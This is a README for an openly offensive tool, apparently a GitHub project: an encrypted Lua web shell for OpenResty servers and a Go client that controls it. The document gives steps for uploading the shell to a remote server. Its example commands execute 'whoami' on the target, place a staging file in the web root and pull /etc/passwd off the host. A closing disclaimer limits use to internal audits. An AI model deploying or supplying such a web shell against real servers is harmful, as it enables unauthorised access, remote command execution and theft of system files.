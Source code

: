 # luaghost
Lua WebShell For OpenResty with AES encryption

# Usage

## 1. Upload the server side script to remote server

```lua
aes = require("resty.aes")
str = require("resty.string")
rand = require("resty.random")

-- Change your encryption key here
template_name = "client_heartbeat"
```

## 2. Access the WebShell by using the client

```shell
$ go get -v # Pull the Golang dependencies

$ go run luaghost.go
  -charset string
    	Access key (default "GBK")
  -cmd string
    	Command to execute, or left it bank to upload a file
  -down
    	Download the remote file instead upload file
  -file string
    	Local file you want to upload / saved
  -key string
    	Access key
  -rpath string
    	Remote file path (with the filename, C:\\1.txt etc, double backslash for Windows)
  -url string
    	Target URL
```

For example, execute the command:
```shell
$ go run luaghost.go  -url https://example.com/shell.lua -key client_heartbeat -cmd "whoami"
```

Uploading file to remote server:
```shell
$ go run luaghost.go -url https://example.com/shell.lua -key client_heartbeat -file ~/stage.lua -rpath "/var/www/html/stage.lua"
```

Downloading a file from remote server:
```shell
$ go run luaghost.go -url https://example.com/shell.lua -key client_heartbeat -down -file /tmp/passwd -rpath "/etc/passwd"
```

# Disclaimer

**This tool is used for internal security accessment && audit only. Please obey the laws of your country.**